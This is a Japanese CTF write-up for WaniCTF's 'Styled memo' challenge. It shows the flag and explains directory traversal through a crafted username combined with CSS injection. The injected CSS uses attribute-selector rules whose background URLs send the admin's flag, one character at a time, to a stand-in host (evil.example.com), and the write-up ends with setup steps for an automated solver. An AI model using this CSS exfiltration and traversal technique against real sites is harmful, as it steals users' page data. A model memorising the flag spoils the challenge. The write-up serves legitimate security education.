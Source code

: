 ```yaml
---
title: "Styled memo"
level: 5
flag: "FLAG{CSS_Injecti0n_us1ng_d1r3ctory_tr@versal}"
writer: "suuhito"
badge: true
---
```


# Styled memo

## 問題文
CSSをアップロードすることで見た目を調整可能なメモアプリです！

<https://styled-memo.web.wanictf.org/>

## 解法
### アプリに関して
* 謎のCSSアップロード機能が付いたメモアプリです。
* ログインユーザが自分のメモのみを閲覧することができます。(`django/app/memo/views.py`の12行目)
* メモ機能としては、一覧、新規作成、編集機能が付いています。
* ユーザ修正機能が付いており、ユーザ名とメモ用CSSを変更することができます。
* 一覧画面で自分が登録したCSSが読み込まれます(`django/app/memo/templates/list.html`の5行目)

### FLAGの場所
* ユーザ登録を済ませると、「説明」というタイトルのメモが表示されています。詳細を確認してみると、`username: adminHOGEがFLAGを持っているようです`のように表示されます。
* このメモを作成する処理を確認してみます。`がFLAGを持っているようです`で検索すると、`django/app/master/views.py`の`form_valid`メソッドで行われています。
* `form_valid`メソッドでは、ユーザ登録画面で送信されたデータに問題がない場合の処理が書かれています。説明メモの作成のほかには、`admin`の作成と`admin`に対してFLAGが`content`に記述されたメモを追加する処理が行われています。
* よって、攻撃者はこのメモの情報をどうにかして入手する必要があります。
* メモ一覧画面のテンプレート(`django/app/memo/templates/list.html`)を確認してみると、34行目で`button`の`data-content`属性に`memo.content`が書かれていることが分かります。すなわち`admin`がメモ一覧画面を表示した際には、HTMLのbuttonタグの属性部分にFLAGが存在することになります。

### CSS Injection
* CSSアップロード機能があることと、FLAGがHTMLタグの属性に書かれていることから、`CSS Injection`による攻撃を検討します。
* `CSS Injection`による攻撃の基本例としては、例えば`adminHOGE`に対して任意のCSSを注入できる状況で、以下のようなCSSを注入した場合を考えます。
* `adminHOGE`がメモ一覧画面を開く際には、`.btn-memo-detail`クラスが適用されている`button`タグの`data-content`属性は`FLAG{...}`となっています。
* ブラウザがスタイル適用処理を行う際に`data-content`属性を確認し、先頭が`F`であることから`http://evil.example.com/?flag=F`にリクエストが発生し、`evil.example.com`の持ち主はFLAGの先頭が`F`であることを知ることができます。
* 二文字目以降も`data-content^="Fa"`のようにすることで判別可能です。
```
.btn-memo-detail[data-content^="a"]{background:url(http://evil.example.com/?flag=a)}
.btn-memo-detail[data-content^="b"]{background:url(http://evil.example.com/?flag=b)}
...
.btn-memo-detail[data-content^="F"]{background:url(http://evil.example.com/?flag=F)}
...
```

### CSSの注入
* しかし、CSSを`admin`に対して注入する方法がなければこの攻撃を行うことができません。
* 怪しいCSSアップロード機能を確認します。CSSのアップロード先の指定などは、`django/app/master/models.py`に記述されています。アップロード先は`get_upload_to`関数によって制御されており、そこではユーザ名のディレクトリ以下にファイルを保存すると書かれています。
* よって、ユーザ名かファイル名のどちらかを細工することでディレクトリトラバーサルを起こし、`admin`と同じディレクトリにCSSをアップロードできないか検討します。
* djangoのバージョンを確認すると、`2.2.20`に固定されています。実はこのバージョンではファイル名によってディレクトリトラバーサルを引き起こすことができるかもしれない問題を[修正](https://docs.djangoproject.com/en/3.2/releases/2.2.20/)しているため、ファイル名を用いるのは難しそうです。
* ユーザ修正機能にはユーザ名の修正機能もついているため、自分のユーザ名を`./admin`のようにすることができれば、`admin`と同じディレクトリにCSSをアップロードすることができそうです。これもdjangoの内部処理によってできるかどうかは変わりませんが、試しにやってみるとできてしまいます！
* ユーザに紐づく`css`にはデフォルト値が存在しており、`example.css`となっています。つまり、例えば`username: adminHOGE`は`css/adminHOGE/example.css`を読み込むようになっています。よって、適当な名前のCSSファイルを`adminHOGE`と同じディレクトリにアップロードすればいいわけではなく、`example.css`という名前でなければならないようです。しかし、20行目あたりを見ると同一ファイル名だった場合は上書きするといった処理が行われるように記述されているため、気にせず`example.css`という名前でファイルをアップロードしましょう。
* 試しに自分のユーザ名を`./adminHOGE`にし、適当な`example.css`をアップロードしてからメモ一覧画面を見ると、`css/adminHOGE/example.css`がブラウザに読み込まれているのを確認できると思います。

### 攻撃
* よって、適当なユーザを作成して攻撃対象のユーザ名を確認し(`adminHOGE`とする)、ユーザ修正機能によって自分のユーザ名を`./adminHOGE`として上で説明したようなCSS(evil.example.comは自分のサーバに変更すること)をアップロードすることで、`adminHOGE`にFLAGを奪えるようなCSSを注入できました。
* この攻撃を成功させるためには、リクエストを受け取るサーバが必要です、自分で建てるのはめんどくさいので、[pipedream](https://pipedream.com)のようなサービスを利用するのをお勧めします。pipedreamはAPIがあるため、攻撃を自動化することも可能です。
* リクエストを受け取るサーバの準備も整い、`adminHOGE`に対してFLAGを奪えるようなCSSを注入できたので、後は`adminHOGE`がメモを見るのを待つのみなのですが、この問題には「adminHOGEにadminHOGEのメモを確認してもらう」ボタンがあるため、これを押すと`adminHOGE`がメモ一覧にアクセスし、リクエストがサーバに飛んできます。頑張って一文字ずつFLAGを盗み出しましょう！

### solverについて
* `solver/solver.py`ではpipedreamを使用しています。簡単にsolverの使い方を説明しておきます。
  * pipedreamのアカウントを作成してログインします。
  * 右のメニューから`Sources`を選択して`new`を選択し、`HTTP / Webhook`を選択してその後はそのままで`sources`を作成します。
  * 作成したsourcesの画面に移動し、`Your endpoint is`以降のurlを`PIPEDREAM_ENDPOINT`に記述します。
  * URLの`https://pipedream.com/sources/xxxxxx`の`xxxxxx`の部分を`PIPEDREAM_SOURCE_ID`に記述します。
  * 右のメニューから`Settings`を選択して`Programmatic Access`を押すと`API Key`が得られるので`PIPEDREAM_API_KEY`に記述します。
  * `APP_ORIGIN`にstyled-memoのurlを設定します。
  * 実行!
